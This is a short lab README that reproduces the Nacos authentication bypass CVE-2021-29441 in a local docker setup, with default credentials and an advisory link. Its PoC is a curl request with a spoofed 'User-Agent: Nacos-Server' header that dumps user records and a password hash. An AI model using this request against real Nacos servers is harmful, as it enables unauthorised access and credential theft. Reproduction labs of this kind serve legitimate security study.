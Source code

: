 # Nacos Authentication Bypass Vulnerability (CVE-2021-29441)

## Introduction

In Nacos before version 1.4.1, when configured to use authentication (-Dnacos.core.auth.enabled=true) Nacos uses the AuthFilter servlet filter to enforce authentication. This filter has a backdoor that enables Nacos servers to bypass this filter and therefore skip authentication checks.

## Setup

Startup Nacos with docker-compose, the remote debug was enabled on port 9555.

```bash
docker compose up -d
```

You could login with default password: `nacos/nacos`

## Poc

The auth filter can be bypass with `User-Agent: Nacos-Server`,

```bash
curl -X GET 'http://localhost:8848/nacos/v1/auth/users?pageNo=1&pageSize=9' -H 'User-Agent: Nacos-Server'
```

you will receive the following response:

```json
{"totalCount":1,"pageNumber":1,"pagesAvailable":1,"pageItems":[{"username":"nacos","password":"$2a$10$EuWPZHzz32dJN7jexM34MOeYirDdFAZm2kuWj7VEOJhhZkDrxfvUu"}]}
```

## Reference

1. https://github.com/advisories/GHSA-36hp-jr8h-556f